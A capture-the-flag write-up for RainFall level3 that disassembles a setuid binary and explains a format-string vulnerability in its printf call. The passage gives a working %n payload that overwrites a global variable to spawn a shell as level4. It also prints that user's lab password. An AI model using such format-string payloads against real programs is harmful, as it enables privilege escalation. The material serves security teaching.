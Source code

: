 # Level 3

- We login as user level3:
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level3/level3
```

```
level3@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level4 users 5366 Mar  6  2016 level3

level3@RainFall:~$ gdb level3
```

```
(gdb) disas main
Dump of assembler code for function main:
   0x0804851a <+0>:     push   %ebp
   0x0804851b <+1>:     mov    %esp,%ebp
   0x0804851d <+3>:     and    $0xfffffff0,%esp
   0x08048520 <+6>:     call   0x80484a4 <v>
   0x08048525 <+11>:    leave
   0x08048526 <+12>:    ret
End of assembler dump.
```

```
(gdb) disas v
Dump of assembler code for function v:
   0x080484a4 <+0>:     push   %ebp
   0x080484a5 <+1>:     mov    %esp,%ebp
   0x080484a7 <+3>:     sub    $0x218,%esp
   0x080484ad <+9>:     mov    0x8049860,%eax
   0x080484b2 <+14>:    mov    %eax,0x8(%esp)
   0x080484b6 <+18>:    movl   $0x200,0x4(%esp)
   0x080484be <+26>:    lea    -0x208(%ebp),%eax
   0x080484c4 <+32>:    mov    %eax,(%esp)
   0x080484c7 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:    lea    -0x208(%ebp),%eax
   0x080484d2 <+46>:    mov    %eax,(%esp)
   0x080484d5 <+49>:    call   0x8048390 <printf@plt>
   0x080484da <+54>:    mov    0x804988c,%eax
   0x080484df <+59>:    cmp    $0x40,%eax
   0x080484e2 <+62>:    jne    0x8048518 <v+116>
   0x080484e4 <+64>:    mov    0x8049880,%eax
   0x080484e9 <+69>:    mov    %eax,%edx
   0x080484eb <+71>:    mov    $0x8048600,%eax
   0x080484f0 <+76>:    mov    %edx,0xc(%esp)
   0x080484f4 <+80>:    movl   $0xc,0x8(%esp)
   0x080484fc <+88>:    movl   $0x1,0x4(%esp)
   0x08048504 <+96>:    mov    %eax,(%esp)
   0x08048507 <+99>:    call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:   movl   $0x804860d,(%esp)
   0x08048513 <+111>:   call   0x80483c0 <system@plt>
   0x08048518 <+116>:   leave
   0x08048519 <+117>:   ret
End of assembler dump.
```


- Let's identify the calls and jump:
```
   0x080484ad <+9>:     mov    0x8049860,%eax
   0x080484b2 <+14>:    mov    %eax,0x8(%esp)
   0x080484b6 <+18>:    movl   $0x200,0x4(%esp)
   0x080484be <+26>:    lea    -0x208(%ebp),%eax
   0x080484c4 <+32>:    mov    %eax,(%esp)
   0x080484c7 <+35>:    call   0x80483a0 <fgets@plt>
```
>`0x8049860 <stdin@@GLIBC_2.0>: 0xb7fd1ac0`

>buffer size is 0x200 bytes

>buffer starts at `-0x208(%ebp)`

>Prompt the user for up to 512 bytes.

```
   0x080484cc <+40>:    lea    -0x208(%ebp),%eax
   0x080484d2 <+46>:    mov    %eax,(%esp)
   0x080484d5 <+49>:    call   0x8048390 <printf@plt>
```
>Call `<printf@plt>` with our buffer as first parameter.

```
   0x080484da <+54>:    mov    0x804988c,%eax
   0x080484df <+59>:    cmp    $0x40,%eax
   0x080484e2 <+62>:    jne    0x8048518 <v+116>
```
>`0x804988c <m>:  0x00000000`

>After the call to `<printf@plt>`, compare the value located at `0x804988c` with the constant 0x40 (64 in decimal). If the two values differ, we `leave` and then `ret`, otherwise we continue.

```
   0x080484e4 <+64>:    mov    0x8049880,%eax
   0x080484e9 <+69>:    mov    %eax,%edx
   0x080484eb <+71>:    mov    $0x8048600,%eax
   0x080484f0 <+76>:    mov    %edx,0xc(%esp)
   0x080484f4 <+80>:    movl   $0xc,0x8(%esp)
   0x080484fc <+88>:    movl   $0x1,0x4(%esp)
   0x08048504 <+96>:    mov    %eax,(%esp)
   0x08048507 <+99>:    call   0x80483b0 <fwrite@plt>
```
>`0x8049880 <stdout@@GLIBC_2.0>:  0xb7fd1a20`

>`0x8048600: "Wait what?!\n"`

>Print `"Wait what?!\n"` into `<stdout>`.

```
   0x0804850c <+104>:   movl   $0x804860d,(%esp)
   0x08048513 <+111>:   call   0x80483c0 <system@plt>
```
>`0x804860d: "/bin/sh"`

>Open a terminal.


- This exercice is an introduction to [format string exploit](https://axcheron.github.io/exploit-101-format-strings/).
The content of our buffer is used as first parameter of the `<printf@plt>` function, so we can read/write anything from/to the stack.
```
level3@RainFall:~$ echo -ne 'BBBB %x %x %x %x %x \n' | ./level3
BBBB 200 b7fd1ac0 b7ff37d0 42424242 20782520
```

```
level3@RainFall:~$ echo -ne 'BBBB %4$x \n' | ./level3
BBBB 42424242
```

```
level3@RainFall:~$ echo -ne '\x8c\x98\x04\x08 %4$x \n' | ./level3
 804988c
```


- With `<printf@plt>`, `%x` allows us to display a hexadecimal value, and `%n` allows us to assign a value to an address that corresponds to the number of characters written so far, so:
```
level3@RainFall:~$ gdb level3
...
(gdb) b*0x080484df
```

```
(gdb) r < <(echo -ne '\x8c\x98\x04\x08 %4$n \n')
...
(gdb) x/d 0x804988c
0x804988c <m>:  5
```

```
(gdb) r < <(echo -ne '\x8c\x98\x04\x08 %58x %4$n \n')
...
(gdb) x/d 0x804988c
0x804988c <m>:  64
```

```
level3@RainFall:~$ (echo -ne '\x8c\x98\x04\x08 %58x %4$n \n'; cat) | ./level3
...
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```